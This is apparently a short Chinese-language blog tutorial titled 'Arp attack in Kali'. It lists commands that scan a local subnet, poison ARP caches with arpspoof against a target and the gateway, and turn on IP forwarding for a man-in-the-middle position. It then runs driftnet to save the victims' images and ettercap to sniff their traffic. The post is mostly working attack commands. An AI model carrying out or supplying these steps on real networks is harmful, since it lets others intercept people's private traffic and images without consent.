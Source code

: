```yaml
---
title: Arp attack in Kali
date: 2023-05-22 10:28:36
author: xeonds
toc: true
excerpt: (￣﹃￣)
---
```


## 步骤

先用`ifconfig`看网卡名称，我是`eth0`。随后用`fping`或者`nmap`扫描网段

```bash
fping -asg 192.168.16.0/24
# 或者这条
nmap 192.168.16.1-100
arpspoof -i eth0 -t [target IP] [gate]
```

如果想做中间人攻击，编辑`/etc/sysctl.conf`，添加配置`net.ipv4.ip_forward=1`，就可以开启端口转发。

此时重新运行，不过得换一下网关ip和目标ip

```bash
arpspoof -i eth0 -t [gate] [target IP] 
```
随后打开另一个终端，运行`driftnet`和`ettercap`：

```bash
driftnet -i eth0 -a -d /root/out
ettercap -Tq -i eth0
```

在上面的目录可以看到缓存的图片，下面的终端可以看到eth0的流量。至此，攻击测试完成。

